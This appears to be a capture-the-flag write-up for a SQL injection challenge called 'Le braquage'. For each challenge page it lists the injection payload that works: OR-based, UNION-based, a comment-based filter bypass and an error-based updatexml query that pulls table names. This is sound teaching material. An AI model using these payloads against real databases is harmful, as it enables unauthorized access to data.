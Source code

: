 # Le braquage

This challenge focuses on SQL injections.
[CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

## Page1

OR based SQLI
```
' or '1'='1
```

## Page2

UNION based SQLI
```
' union select 1-- -
```

## Page3

Filter bypass
```
'/**/or/**/'1'='1
```

Error based
```
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```
